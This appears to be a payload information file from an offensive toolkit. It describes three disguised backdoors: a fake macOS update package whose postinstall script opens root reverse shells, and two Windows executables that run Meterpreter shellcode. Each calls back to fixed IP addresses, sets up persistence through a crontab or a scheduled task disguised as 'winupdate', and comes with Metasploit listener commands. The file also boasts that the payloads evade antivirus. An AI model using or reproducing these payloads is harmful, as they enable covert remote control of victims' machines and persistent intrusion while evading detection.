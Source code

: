 
-------------------------------
----- Payload Information -----
-------------------------------

[Apple_MacOSX_Update.pkg]

- Description: This is 4 lines of BASH stuck in an apple postinstall script.
               No signature AV can ever detect this because it uses system
               mechanics and contains no binaries in the package.

- This will spawn 2 root shells to the following addresses:
	172.16.42.2 6446
	172.16.42.3 6446

- It will also add a persistent backdoor that will spawn these 2 shells
  every 3 minutes (sudo crontab -l).

- Use this in metasploit for a listener:

set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 6446
set ExitOnSession false
set AutoRunScript ""
exploit -j


[shellcode-tcp.exe]

- Description: This is a windows meterpreter shell that was
               encoded into base 64, embedded into a python script
               that preforms shellcode execution on the system
               and then compiled into an executable. It is not detecte
               at the time of this writing. If it is, recreate it.

- This will spawn 2 meterpreter shells to the following addresses:
	172.16.42.2 587
	172.16.42.3 587

- It will also add a persistent backdoor to Windows that will spawn
  these 2 shells every 3 minutes (schtasks /query /tn winupdate)

- Use this in metasploit for a listener:

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 587
set ExitOnSession false
set EXITFUNC thread
set AutoRunScript "migrate -f -k"
exploit -j

[powershell-https.exe]

- Description: This is an implementation of "Invoke-Shellcode"
               from Matthew Graeber's PowerSploit modules. It
               was minified and implemented into a standalone
               python script then compiled into an executable.

- This will spawn 2 meterpreter shells to the following addresses:
        172.16.42.2 587
        172.16.42.3 587

- It will also add a persistent backdoor to Windows that will spawn
  these 2 shells every 3 minutes (schtasks /query /tn winupdate)

- Use this in metasploit for a listener:

set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 587
set SessionCommunicationTimeout 0
set ExitOnSession false
set EXITFUNC thread
set AutoRunScript ""
exploit -j


